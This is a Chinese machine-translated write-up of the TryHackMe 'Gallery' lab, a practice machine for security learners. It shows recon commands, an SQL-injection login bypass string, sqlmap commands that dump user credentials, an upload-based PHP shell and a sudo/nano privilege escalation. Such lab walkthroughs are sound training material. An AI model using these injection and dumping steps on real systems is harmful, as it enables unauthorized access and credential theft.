# TryHackMe:画廊

> 原文：<https://infosecwriteups.com/thmgallery-25845096170d?source=collection_archive---------1----------------------->

游戏攻略

大家好。！不浪费时间，让我们利用画廊->


让我们从我的首字母开始

```
export IP=10.10.195.122
```

# 侦察

## nmap

```
nmap -sC -sV -Pn -oN nmap $IP
```



nmap _ 结果. txt

我们有两个开放的端口:`80 & 8080`

端口 80 有默认的 Apache 服务器网页。

## 目录暴力破解

让我们一起去玩“捉鬼敢死队”:

```
gobuster dir -u $IP -w /opt/medium.txt
```



gobuster_result.png

# 剥削

## SQLi

访问 http://$IP/gallery，我们有登录页面



login_page.png

*   尝试了一些默认密码→没有成功。
*   尝试基本 sqli 语法→成功

在用户名字段中

```
'or 1=1 -- -
```

将密码留空，我们就可以登录了:)



Post_login.png

因此，有一个简单的图像画廊系统，即 sqli(参考下文)的利用



brup.png

让我们保存这个`right_click>save>test.req` &把它放入 **sqlmap**

```
sudo sqlmap -r test.req --dbs
```



sqlmap.png

我们发现了两个数据库:



database.png

现在去拿桌子:

```
sudo sqlmap -r test.req --current-db gallery_db --tables
```


tables.png

现在获取列:

```
sudo sqlmap -r test.req --current-db gallery_db -T users --columns
```



列

让我们转储一些数据

```
sudo sqlmap -r test.req --current-db gallery_db -T users -C username,password --dump
```



我们发现了管理哈希(我们可以破解，但这是一个兔子洞)

## 壳

经过一番冲浪，发现可以上传图片(/任意文件)。我启动了我的监听器并上传了 php 文件，我们得到了**外壳**



Shell.png

## user.txt

我花了大约 4 个多小时来寻找各种特权提升技术，但是什么也没找到。

后来我的朋友给了我一些提示，然后我在备份文件夹里发现了一些有趣的凭据:



兔子洞. png

再说一次，这些只是兔子洞，没关系。

我们继续，后来我发现了。bash _ 历史



。bash_history.png

这里您可以看到用户 mike 的密码。

```
su mike
```

输入密码，我们是迈克·:D



user.txt.png

# 根

## root.txt

跑着`sudo -l`，我们发现


须岛县

用户 mike 可以 sudo 身份运行/opt/rookit.sh 文件

让我们检查一下这个文件:



嗯，我们可以通过 nano 访问 esc，查看 GTFObins

```
sudo /bin/bash /opt/rootkit.sh
```



纳米私人 ECS technique.png

之后都是 urs:)



root.txt

感谢您阅读本文。希望你喜欢。

# 参考资料:

|| [网站](https://namx05.github.io/)|[Twitter](https://twitter.com/namx05)|[GTFObins](https://gtfobins.github.io/)|[THM Room](https://tryhackme.com/room/gallery666)|[SQLi exploit](https://www.exploit-db.com/exploits/50198)| |

# 🔈 🔈Infosec Writeups 正在组织其首次虚拟会议和网络活动。如果你对信息安全感兴趣，这是最酷的地方，有 16 个令人难以置信的演讲者和 10 多个小时充满力量的讨论会议。[查看更多详情并在此注册。](https://iwcon.live/)

[](https://iwcon.live/) [## IWCon2022 - Infosec 书面报告虚拟会议

### 与世界上最优秀的信息安全专家建立联系。了解网络安全专家如何取得成功。将新技能添加到您的…

iwcon.live](https://iwcon.live/)